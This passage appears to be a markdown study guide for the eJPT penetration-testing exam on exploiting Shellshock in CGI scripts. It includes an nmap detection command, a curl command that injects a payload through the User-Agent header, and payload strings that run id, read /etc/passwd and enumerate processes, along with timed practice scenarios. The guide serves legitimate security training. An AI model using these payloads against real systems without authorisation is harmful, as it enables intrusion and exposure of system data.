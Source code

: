 ### 📊 **Critical Success Metrics for eJPT:**

| Skill Area | Importance | Time Allocation | Success Criteria |
|------------|------------|-----------------|------------------|
| **Shellshock Detection** | 🔴 95% | 5 minutes | NSE script identifies vulnerability |
| **Burp Suite Exploitation** | 🔴 90% | 10 minutes | Successful command execution |
| **Payload Crafting** | 🔴 85% | 5 minutes | Multiple payloads work correctly |
| **Evidence Collection** | 🔴 80% | 3 minutes | Screenshots and outputs saved |

### 🏆 **Master These Commands for Guaranteed Success:**

```bash
# 1. DETECTION (Must memorize!)
nmap --script http-shellshock --script-args "http-shellshock.uri=/SCRIPT_PATH" TARGET

# 2. BASIC TESTING (Practice daily!)
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://TARGET/CGI_SCRIPT

# 3. CRITICAL PAYLOADS (Know by heart!)
() { :; }; echo; echo; /bin/bash -c 'id'                    # Identity check
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'       # Password enumeration  
() { :; }; echo; echo; /bin/bash -c 'ps -ef'                # Process listing
() { :; }; echo; echo; /bin/bash -c 'uname -a'              # System info
```

### 🎯 **eJPT Exam Scenarios (Practice These!):**

#### **Scenario 1: Web Application Assessment** ⭐⭐⭐⭐⭐
```
Situation: Given a web server on port 80, identify and exploit vulnerabilities
Required Skills: Port scanning → Service enumeration → Vulnerability detection → Exploitation
Time Limit: 20 minutes maximum
Success Criteria: 
✅ Identify open ports and services
✅ Discover CGI functionality  
✅ Detect Shellshock vulnerability
✅ Execute commands successfully
✅ Extract sensitive information (/etc/passwd)
```

#### **Scenario 2: CGI Script Exploitation** ⭐⭐⭐⭐
```
Situation: Known web application with CGI functionality, exploit for system access
Required Skills: HTTP header manipulation → Payload crafting → Command execution
Time Limit: 15 minutes maximum
Success Criteria:
✅ Identify correct injection point (User-Agent header)
✅ Craft working Shellshock payload
✅ Demonstrate remote code execution
✅ Perform system reconnaissance (id, ps, etc.)
```
